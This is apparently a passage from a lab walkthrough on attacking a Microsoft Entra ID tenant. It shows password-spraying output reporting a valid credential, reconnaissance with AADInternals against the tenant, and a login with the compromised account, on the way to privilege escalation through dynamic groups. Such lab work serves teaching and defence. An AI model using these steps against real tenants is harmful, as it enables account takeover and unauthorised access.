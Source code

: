 ```
                        Oh365UserFinder.py -h to get started

------------------------------------------------------------------------------------------

[info] Starting Oh365 User Finder at Mon Sep 15 21:36:19 2025

[+] alee@megabigtech.com                         Result -                VALID PASSWORD! [+]

[info] Oh365 User Finder discovered one valid credential pair.

[info] Scan completed at Mon Sep 15 21:36:21 2025  
```
First we need to find the tenant, we can use https://aadinternals.com/osint/ or run `Invoke-AADIntReconAsOutsider`
```
└─PS> Invoke-AADIntReconAsOutsider -UserName "alee@megabigtech.com" | Format-Table
Tenant brand:       Default Directory                                                                                   
Tenant name:                                                                                                            
Tenant id:          2590ccef-687d-493b-ae8d-441cbab63a72                                                                
Tenant region:      EU                                                                                                  
DesktopSSO enabled: True                                                                                                
Get-TenantSubscope: /home/kali/.local/share/powershell/Modules/AADInternals/0.9.8/KillChain_utils.ps1:266               
Line |                                                                                                                  
 266 |  …            $SubScope = Get-TenantSubscope -Domain $User.Split("@")[1]                                         
     |                                                      ~~~~~~~~~~~~~~~~~~~                                         
     | Cannot bind argument to parameter 'Domain' because it is an empty string.                                        
WARNING: Requests throttled!                                                                                            
CBA enabled:        True                                                                                                
                                                                                                                        
Name              DNS    MX   SPF DMARC  DKIM MTA-STS Type    STS                                                       
----              ---    --   --- -----  ---- ------- ----    ---                                                       
megabigtech.com False False False       False   False Managed 
```

![](abuse-dynamic-groups-in-entra-id-for-privilege-escalation-6.png)

Let's connect as Angelina
```
└─PS> Connect-AzAccount -TenantId 2590ccef-687d-493b-ae8d-441cbab63a72
Please select the account you want to login with.

Retrieving subscriptions for the selection...

Subscription name Tenant
----------------- ------
                  2590ccef-687d-493b-ae8d-441cbab63a72
```
